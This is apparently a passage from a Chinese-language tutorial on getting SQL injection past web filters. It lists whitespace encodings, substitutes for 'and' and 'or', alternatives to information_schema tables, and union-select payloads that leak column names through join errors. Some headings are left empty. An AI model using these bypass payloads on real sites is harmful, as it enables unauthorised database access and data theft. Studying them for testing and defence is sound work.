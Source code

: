 2.%0a相当于换行

3.%0C新一页

4.%0B纵向的TabLayout

5.%20是一个空格

6.%a0仅仅只有mysql可以识别空格

7./**/注释空格

8.\--\+x%0a：-\-\+是注释，%0a是换行，这种连接方式被过滤了，因此中间加几个没有用的字符

9.\--\+x%0F%0A：字符在被过滤掉后可以在此尝试url编码其他符号

### 3.9.3 特殊符号

### 3.9.4 编码

### 3.9.5 替换

**1.and和or替换**

- 1.&&和||

- 2.使用异或截断

  - ?id=1^1^0
  - ?id=1^0^0

  3.使用{``operation}

  - and{\`test` 1=2}
  - and{\`test` 1=1}

  4.直接使用真，假

  - && true
  - && false

**2.order by替换group by**

**3.union select 变成 union all select**

**4.information_schema.tables**

- sys.schema_table_statistics_with_buffer
- sys.x$ps_schema_table_statistics_io

**5.information_schema.columns 变成用join法获取列名（前提是页面要有报错回显）**

- 第一列列名：`union/*!70000 xxx*/select * from (select */*!70000 xxx*/from /*!70000 xxx*/users as a join users as b)as c`
- 第二列列名：`union/*!70000 xxx*/select * from (select */*!70000 xxx*/from /*!70000 xxx*/users as a join users as b using(id))as c`
- 第三列列名：`union/*!70000 xxx*/select * from (select */*!70000 xxx*/from /*!70000 xxx*/users as a join users as b using(id,username))as c`

**6.group_concat()**
